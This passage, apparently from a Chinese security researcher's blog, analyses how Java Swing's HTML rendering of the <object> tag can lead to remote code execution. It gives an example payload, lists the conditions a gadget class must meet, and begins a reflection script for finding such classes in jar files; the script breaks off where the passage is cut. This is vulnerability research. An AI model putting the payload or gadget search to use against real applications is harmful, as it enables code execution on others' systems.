 ![image-20221030214752682](https://raw.githubusercontent.com/todis21/image/main/202211011228540.png)

从demo运行结果可以看出html代码被解析执行，这就是整个漏洞的关键点，也是起点



## 大佬文章指引

根据[漂亮鼠大佬文章](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098978&idx=1&sn=d511d5a674d84eeaf262c8e389ae0403&chksm=803c696bb74be07d8ef8e473b11ffe4dce57b58ccf82e8615ab15d9ba6bba9263360c01276a8&mpshare=1&scene=23&srcid=1012cGc5X3pyXr5VpF2LMf7Y&sharer_sharetime=1665577816700&sharer_shareid=685f4dccaa04150832e24b9e6499e6cf#rd) 分析的，<object 标签能够实现rce，payload大概长这个样

```html
<html> <object classid="A"> <param name="my_name" value="Rio"></object>
```

解析器将尝试创建A类的实例，检查该类是否是`java.awt.Component`的子类，并为`my_name` 参数调用 `setXXXX `方法。

总的来说要满足以下条件

1. classid传入需要实例化的类，类必须继承与Component
2. 必须有无参构造方法，貌似是因为newinstant是调用的无参构造方法
3. 必须存在一个setXXX方法的XXX属性
4. setXXX方法的传参数必须是接受一个string类型的参数



## 寻找rce链子

手动寻找满足以上标准的类绝非易事，利用java反射，能够快速找出满足条件的所有类

ps:  java几乎0基础，花了好久才整出这个脚本

```java
import java.awt.*;
import java.io.File;
import java.io.IOException;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.Enumeration;
import java.util.jar.JarEntry;
import java.util.jar.JarFile;
public class load_jar {

    public static void getJarName(String jarFile) throws Exception {
        int flag=1;
        int flag2 = 0;
        try{
            //通过将给定路径名字符串转换为抽象路径名来创建一个新File实例
            File f = new File(jarFile);
            URL url1 = f.toURI().toURL();
            URLClassLoader myClassLoader = new URLClassLoader(new URL[]{url1},Thread.currentThread().getContextClassLoader());
            //通过jarFile和JarEntry得到所有的类
            JarFile jar = new JarFile(jarFile);
            //返回zip文件条目的枚举
            Enumeration<JarEntry> enumFiles = jar.entries();
            JarEntry entry;

            while(enumFiles.hasMoreElements())
            {
                entry = (JarEntry)enumFiles.nextElement();
                if(entry.getName().indexOf("META-INF")<0)
                {
                    String classFullName = entry.getName();
                    if(classFullName.endsWith(".class"))
```